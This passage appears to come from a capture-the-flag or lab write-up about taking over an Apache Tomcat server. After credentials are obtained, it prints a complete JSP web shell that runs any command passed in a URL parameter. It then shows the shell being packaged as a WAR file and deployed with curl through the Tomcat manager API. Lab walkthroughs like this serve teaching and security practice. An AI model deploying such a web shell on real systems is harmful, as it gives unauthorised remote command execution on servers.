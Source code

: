{: .wrap }

### RCE

With the credentials for `Tomcat`, we can use them to deploy an application as a **WAR** file, which includes a web shell, allowing us to gain **Remote Code Execution (RCE)**.

First, we create our web shell as `index.jsp`.

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
{: file="index.jsp"}

We package it into a **WAR** file.

```console
$ mkdir webshell

$ cp index.jsp webshell

$ cd webshell

$ jar -cvf ../webshell.war *
added manifest
adding: index.jsp(in = 580) (out= 352)(deflated 39%)

$ cd ..

$ rm -r webshell
```

Now it is time to deploy our **WAR** file. Since we don't have the `manager-gui` role, we cannot use the **Tomcat** web interface for this task, but we can use `curl`.

```console
$ curl --upload-file webshell.war -u tomcat:[REDACTED] 'http://10.10.61.142:8080/manager/text/deploy?path=/webshell&update=true' 
OK - Deployed application at context path [/webshell]
```
{: .wrap }
